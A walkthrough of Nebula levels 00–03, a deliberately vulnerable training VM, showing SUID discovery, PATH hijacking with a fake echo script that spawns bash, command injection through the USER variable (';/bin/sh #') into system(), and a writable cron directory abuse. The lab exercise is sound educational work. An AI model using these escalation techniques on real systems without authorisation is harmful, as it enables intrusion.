 # Exploit Education - Nebula

This is a walkthrough of [Nebula](http://exploit.education/nebula/) from [Exploit Education](http://exploit.education/).  

Nebula is a Linux virtual machine designed to demonstrate a number of weaknesses and vulnerabilities in Linux. 

## Setup
To run these tasks I use VirtualBox. The virtual machine has 1 GiByte of RAM, no virtual hard drive and network set to Host Only Adapter. The Nebula ISO image is attached and on startup the Live Image is selected from the boot menu. Once presented with a prompt login with username and password of 'nebula'. Then run `ifconfig` to get the IP address of the virtual machine.  

With the virtual machine running I log into each level using `ssh`:
```
$ ssh levelnn@NEBULA_VM_IP_ADDRESS
```
The username and password for each level take  the form 'levelnn' where nn is the number of the level. The aim of each level is to be able to run the `getflag` command to under the 'flagnn' account.

## Levels
[Level 00](#level-00)  
[Level 01](#level-01)  
[Level 02](#level-02)  
[Level 03](#level-03)  

### Level 00

[Level 00 Description](https://exploit.education/nebula/level-00/)  

First of all we use `find` to find any SUID applications that we can run.
```
level00@nebula:~$ find / -type f -perm -u+s 2>/dev/null
```
In amoungst the find result we see:
```
...
/rofs/bin/.../flag00
...
level00@nebula:~$ ls -al /rofs/bin/.../flag00 
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /rofs/bin/.../flag00
```
Try and run the `flag00` application.
```
level00@nebula:~$ /rofs/bin/.../flag00 
Congrats, now run getflag to get your flag!
flag00@nebula:~$ 
```
The application has given us a shell as the flag00 user. We can now run `getflag`
```
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Level 01

[Level 01 Description](https://exploit.education/nebula/level-01/)

From inspection of the source code attached to the description we can see that the `flag01` program uses the `system()` function to call `echo` and write 'and now what?' to stdout. 
```
level01@nebula:~$ ls -al /home/flag01
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
level01@nebula:~$ /home/flag01/flag01
and now what?
```
`flag01` is an SUID application therefore it will run any commands as the flag01 user. The absolute path of `echo` isn't set therefore we can create a fake echo command to give us a shell under the flag01 account.  

To do this we simply create a one line script in `/tmp/echo` which just runs `/bin/bash`. We give the script execute permissions and and /tmp to the PATH.
```
level01@nebula:~$ echo /bin/bash > /tmp/echo 
level01@nebula:~$ chmod +x /tmp/echo
level01@nebula:~$ export PATH=/tmp:$PATH
```
Now when we run `flag01` we drop into a shell under the flag01 account and we can run `getflag`.
```
level01@nebula:~$ /home/flag01/flag01 
flag01@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Level 02

[Level 02 Description](https://exploit.education/nebula/level-02/)

From inspection of the source code attached to the description we can see that the `flag02` program uses fills a buffer with a command which is then executed by the `system()` function. The command uses `echo` to print the USER environment variable. We can modify the USER variable to manipulate the command to give use a shell.

Initial experimentation:
```
level02@nebula:~$ cd /home/flag02
level02@nebula:/home/flag02$ ./flag02 
about to call system("/bin/echo level02 is cool")
level02 is cool
```
Initial attempt at changing the USER variable:
```
level02@nebula:/home/flag02$ USER=/bin/sh ./flag02
about to call system("/bin/echo /bin/sh is cool")
/bin/sh is cool
level02@nebula:/home/flag02$ USER=/bin/sh; ./flag02
about to call system("/bin/echo /bin/sh is cool")
/bin/sh is cool
```
Success!
```
level02@nebula:/home/flag02$ USER=';/bin/sh #' ./flag02
about to call system("/bin/echo ;/bin/sh # is cool")

sh-4.2$ #
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
### Level 03

[Level 03 Description](https://exploit.education/nebula/level-03/)

Initial iscpection of /home/flag03 shows that there is a script called `writeable.sh` and a directory called `writeable.d` in /home/flag03. 
```
level03@nebula:~$ ls
level03@nebula:~$ ls /home/flag03
writable.d  writable.sh
```
`writable.sh` is the cron task. It executes any scripts in the directory `writeable.d` and then deletes the file. 

We can create a short script that will call `getflag` and place it in `writeable.d`. The script will run under the flag03 account so getting the flag will succeed.
```
level03@nebula:~$ echo 'getflag > /tmp/flag.out' > script.sh
level03@nebula:~$ cp script.sh /home/flag03/writable.d
```
A few minutes later...
```
level03@nebula:~$ ls -al /tmp/
total 4
drwxrwxrwt 4 root   root   100 2021-03-28 01:27 .
drwxr-xr-x 1 root   root   220 2021-03-28 01:20 ..
-rw-rw-r-- 1 flag03 flag03  59 2021-03-28 01:27 flag.out
drwxrwxrwt 2 root   root    40 2021-03-28 01:20 .ICE-unix
drwxrwxrwt 2 root   root    40 2021-03-28 01:20 .X11-unix
level03@nebula:~$ cat /tmp/flag.out 
You have successfully executed getflag on a target account
```
